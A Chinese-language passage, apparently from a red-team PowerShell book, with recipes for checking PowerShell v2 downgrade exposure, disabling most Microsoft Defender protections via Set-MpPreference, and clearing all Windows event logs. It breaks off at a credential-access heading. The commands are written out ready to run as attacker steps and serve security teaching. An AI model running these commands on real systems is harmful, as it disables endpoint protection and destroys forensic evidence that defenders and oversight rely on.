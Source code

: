 如果你尝试运行`powershell.exe -version 2`并且收到类似以下代码片段的错误消息，表示缺少 .NET Framework 2.0 版本，这意味着 .NET Framework 2.0 尚未安装在系统中：

```
> powershell.exe -version 2
Version v2.0.50727 of the .NET Framework is not installed and it is required to run version 2 of Windows PowerShell.
```

.NET Framework 2.0 可以手动安装。要评估 PowerShell 版本 2 是否启用或禁用，请运行以下命令：

```
> Get-WindowsOptionalFeature -Online | Where-Object {$_.FeatureName -match "PowerShellv2"}
FeatureName : MicrosoftWindowsPowerShellV2Root
State       : Enabled
FeatureName : MicrosoftWindowsPowerShellV2
State       : Enabled
```

在此示例中，似乎 PowerShell 版本 2 仍然在此机器上启用。因此，如果缺少的 .NET Framework 2.0 被安装，该系统将容易受到降级攻击。

### 禁用 Microsoft Defender

你想禁用 Microsoft Defender 及其大多数安全功能。

#### 解决方案

你可以使用`Set-MpPreference`来实现你的目标：

```
> Set-MpPreference -DisableRealtimeMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -EnableNetworkProtection AuditMode -MAPSReporting Disabled -SubmitSamplesConsent NeverSend -EnableControlledFolderAccess Disabled -Force
```

此命令禁用实时监控、入侵防御系统、`Internet Outbound AntiVirus`（**IOAV**）保护和脚本扫描。它将网络保护设置为仅审核模式（因此不再强制执行），禁用`Microsoft Active Protection Service`（**MAPS**）报告，将同意设置为永不发送样本，并禁用受控文件夹访问。`-Force` 参数确保在没有额外提示的情况下应用这些更改。

如果你想篡改本示例中未显示的其他功能，请参阅`Set-MpPreference`文档：https://learn.microsoft.com/en-us/powershell/module/defender/set-mppreference。

### 清除日志

无论目标系统上部署的是哪个 PowerShell 版本，你都希望清除所有事件日志。

#### 解决方案

你可以使用以下代码片段清除所有事件日志：

```
Get-WinEvent -ListLog * | foreach {
    try {       [System.Diagnostics.Eventing.Reader.EventLogSession]::GlobalSession.ClearLog($_.LogName) }
    catch {}
}
```

## 凭证访问
